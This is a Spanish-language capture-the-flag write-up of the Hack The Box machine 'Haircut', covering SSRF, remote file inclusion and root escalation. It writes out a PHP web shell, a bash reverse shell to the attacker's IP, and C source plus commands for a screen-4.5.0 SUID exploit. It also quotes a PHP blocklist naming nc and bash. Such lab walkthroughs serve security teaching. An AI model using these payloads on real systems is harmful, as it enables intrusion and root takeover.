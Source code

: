 ```yaml
---
layout: single
title: Haircut - Hack The Box
excerpt: "SSRF"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-forge/forge1.png
categories:
  - hackthebox
  - infosec
tags:
  - hackthebox
  - SSRF  
---
```



# 10.10.10.24 - Haircut
![](/assets/images/htb-haircut/haircut1.png)


------------
# Part 1: Enumeración

Puertos abiertos 22(shh) y 80(http)

```console
└─$ whatweb http://10.10.10.24
HTTPServer[Ubuntu Linux][nginx/1.10.0 (Ubuntu)], IP[10.10.10.24], Title[HTB Hairdresser]

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.24/FUZZ'
000000150:   301        7 L      13 W       194 Ch      "uploads"

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 'http://10.10.10.24/FUZZ.php'
000025043:   200        19 L     41 W       446 Ch      "exposed"
```
El fuzzing por subdominios no resuelve.
![](/assets/images/htb-haircut/haircut2.PNG)

**/uploads** -> 403 forbidden
**/exposed.php**

Hay una web que dice que que así "Pon la dirección de la peluquería que te gustaria visitar. Por ejemplo: http://localhost/test.html"
![](/assets/images/htb-haircut/haircut3.PNG)

------------
# Part 2: SSRF

Hay un panel que pone "http://localhost/test.html" y en un iframe nos muestra una foto.
Si por curiosidad buscamos "http://10.10.10.24/test.html" sale la misma foto.

En un iframe la web muestra contenido propio, (es como la máquina forge). Encima al ser localhost, se hace
peticiones a si mismo, por lo que puede mostrar contenido retringido al exterior. Esto se llama "SSRF".

La peticion es ```/POST a /exposed.php con los parametros formurl=http://localhost/test.html&submit=Go```

## Internal Port Discovery

Por http se puede acceder a puertos internos -> http://IP:puerto
```console
└─$ wfuzz -X POST --hw=83,95 -z range,0000-9999 -d "formurl=http://localhost:FUZZ&submit=Go" http://10.10.10.24/exposed.php
000000023:   200        25 L     97 W       898 Ch      "0022"
000000081:   200        29 L     100 W      932 Ch      "0080"
000003307:   200        22 L     92 W       909 Ch      "3306"
```
El puerto 3306 es sql, por lo que habrá una base de datos corriendo en algun lado.

## Fuzzing de subdominios
```console
└─$ wfuzz -X POST -w $(locate subdomains-top1million-5000.txt) -d "formurl=http://FUZZ.localhost&submit=Go" http://10.10.10.24/exposed.php
000000007:   200        22 L     319 W      2340 Ch     "webdisk"
000000003:   200        22 L     319 W      2336 Ch     "ftp"
000000001:   200        22 L     319 W      2336 Ch     "www"
000000006:   200        22 L     307 W      2258 Ch     "smtp"
000000008:   200        22 L     307 W      2257 Ch     "pop"
000000015:   200        22 L     319 W      2335 Ch     "ns"
000000023:   200        22 L     319 W      2338 Ch     "forum"
000000039:   200        22 L     319 W      2337 Ch     "dns2"
000000041:   200        22 L     307 W      2258 Ch     "dns1"
000000038:   200        22 L     307 W      2258 Ch     "demo"
```

Aun así probando con cualquiera de estos se queda colgado.

```console
└─$ wfuzz -X POST --hw=98,53,110 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -d "formurl=http://localhost/FUZZ/&submit=Go" http://10.10.10.24/exposed.php
000000150:   200        29 L     96 W       966 Ch      "uploads"
000002010:   200        19 L     43 W       471 Ch      "'"  
```
------------
# Part 3: RFI

Si en vez de apuntar al localhost, apuntamos a nuestro servidor ```sudo python3 -m http.server 80``` -> ```http://10.10.14.16```

Intentamos subir un index.html pero no lo ejecuta
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'
```
Como el comando que está ejecutando el servidor es un "curl" (se ve por "% Total % Received % Xferd Average...")

```<?php system($_REQUEST['cmd']); ?>```

Hay una opción en curl para depositar archivos **-o**:
```http://10.10.14.16/cmd.php -o /var/www/html/uploads/cmd.php```

```console
└─$ curl -s "http://10.10.10.24/uploads/cmd.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

└─$ curl -s "http://10.10.10.24/uploads/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.16/443 0>%261'"
```
------------
# Part 4: En el sistema

Recibimos una shell por el puerto 443.

- Usuarios del Sistema ->  root maria
- SUIDs -> /usr/bin/screen-4.5.0

Hay un exploit para eso:

1. Crea la librería " ./libhax.so"
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
```console
└─$ gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c 
```

1. Crea el binario rootshell (spawnea una sh manteniendo privilegios, una especie de "bash -p")
```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
```console
└─$ gcc -o ./rootshell ./rootshell.c
```

Una vez eso se siguen los pasos del exploit
```console
www-data@haircut:/tmp$ curl http://10.10.14.16/libhax.so -O
www-data@haircut:/tmp$ curl http://10.10.14.16/rootshell -O
www-data@haircut:/tmp$ cd /etc
www-data@haircut:/etc$ umask 000
www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@haircut:/tmp$ screen -ls
www-data@haircut:/tmp$ ./rootshell
# whoami
root
```

------------
# Extra

El código que hacia el curl
```php
<?php
	if(isset($_POST['formurl'])){
		echo "<p>Requesting Site...</p>";
		$userurl=$_POST['formurl'];   // $usrurl es lo que pasa el usaurio por el panel.
		$naughtyurl=0;			// Flag que ve si la url es "sucia"
		$disallowed=array('%','!','|',';','python','nc','perl','bash','&','#','{','}','[',']'); // Caracteres especiales
		foreach($disallowed as $naughty){ 
			if(strpos($userurl,$naughty) !==false){   // Si cada uno de esos caracteres sale en la url, no ejecutamos nada.
				echo $naughty.' is not a good thing to put in a URL';
				$naughtyurl=1;}}
		if($naughtyurl==0){    // Si pasa esta vaga sanitización...
			echo shell_exec("curl ".$userurl." 2>&1");}}    // El sistema le hace un curl
?>
```
Lo de los caracteres es para que no se pueda ejecutar comandos tipo ```curl http://localhost/test.html; whoami```